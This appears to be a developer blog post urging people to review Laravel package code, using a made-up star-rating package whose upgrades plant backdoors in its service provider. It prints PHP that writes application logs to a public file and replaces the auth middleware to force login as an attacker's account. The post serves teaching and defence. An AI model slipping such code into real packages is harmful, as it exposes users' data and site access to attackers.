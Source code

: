 ```yaml
---
title: Remember to Review Your Package Code for Security
date: 2019-08-12
tag:
- php
- laravel
- security
---
```

Open source software is wonderful for many reasons.  One of the best is we can see and inspect the software for vulnerabilities.  But, far too many people actually do this.  Let me demonstrate, using a Laravel package, how this lack of review might backfire and cause you grief.

<!--more-->

> It's important to note that this attack vector is not solely a problem with Laravel.  A lot of projects and code are configured to trust libraries from the package providers.

### My Initial Set Up

I have a website on which I sell shoes.  For example, I have this extremely boring listing for a pair of flip flops:

[![Text-based Stars](/uploads/2019/security-demo-1.thumbnail.png)](/uploads/2019/security-demo-1.png){: .thumbnail}

I'd like to add icon-style stars to the rating.  I heard about this awesome package that allows me to use a Blade directive to do that.  Seems like a nice way to save some time.  The following command is ran:

```bash
composer require aaronsaray/laravel-star-display
```

Before you know it, I have a new Blade helper - yay!  Now, I can write the code like this in my blade file:

```html
<strong>Rated:</strong> @stars(5)
```

I get a nice view like this:

[![UTF8-Icon-based Stars](/uploads/2019/security-demo-2.thumbnail.png)](/uploads/2019/security-demo-2.png){: .thumbnail}

This is great! Moving on!

**Well, there's a problem.**  I didn't look at the code that I just installed.  This package injects its code by registering an auto-discovered service provider for Laravel.  This ease of use/installation is also what makes it easy for this to take advantage of my website.

Let's take a look at the code in the package's service provider:

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
    }
}
```

Whew - I dodged a bullet!  This package has no malicious code

### It's Upgrade Season

There's an upgrade for this package.  It probably gives me more features or makes it more efficient? I don't have time to check into this.  So, the package gets updated.  Everything seems to be working fine.  However, during this upgrade, the service provider has changed (and I didn't notice).  There's a new line:

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
        
        app()
          ->make('log')
          ->pushHandler(
            new \Monolog\Handler\StreamHandler(public_path('/secret-log.txt'))
          );
    }
}
```

This code is accessing the Monolog `Logger` instance and adding another stream handler to it.  It's writing my log data to a public directory.  Later on, the "bad guy" can surf to `http://my-site.com/secret-log.txt` and see a copy of all my application logs.

Not a big deal? You never know... you might have a log entry like:

`logger('User sensitive information here.')`

or the application could be configured to log errors.  These stack traces could include passwords and secret keys.

### Another Upgrade

Just by downloading this newly publicly available log file, the attacker has useful information about my users and app.  But, the fact that the log even exists indicates that I use their package and don't care about reviewing it for security.

Imagine I have this very simple admin interface:

```php
Route::get('admin', function () {
    return view('admin');
})->middleware('auth');
```

When you surf to `http://my-site.com/admin` you must be authenticated.  Otherwise, you're redirected.  This is because of the `auth` middleware.  Cool!

The new Star Display package upgrade introduces new code, however.  See if you can spot what's going to happen.

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
        
        app()
          ->make('log')
          ->pushHandler(
            new \Monolog\Handler\StreamHandler(public_path('/secret-log.txt'))
          );
          
        app()->instance(Authenticate::class, function ($request, $next) {
          $badGuyUser = User::where('email', 'bad@guy.com')->first();
          Auth::login($badGuyUser);
          return $next($request);
        });
    }
}
```

In this code, the bad guy replaces the `Authenticate` (which is aliased to `auth`) middleware with an inline closure.  When we check `auth`, instead of running any sort of checks, this code just grab the bad guy user and force them to be logged in.

### End Notes

These were some pretty contrived examples, but it should illustrate the point. I wanted to demonstrate how it's important for us all to read the code before we install and upgrade packages.  Through these demonstrations, I hope to have shown that a pretty unskilled attacker can compromise your website with just a few lines of code in Laravel.

Again, these attacks are not limited to Laravel.  Something similar to this just happened with [NPM packages](https://www.theregister.co.uk/2018/11/26/npm_repo_bitcoin_stealer/).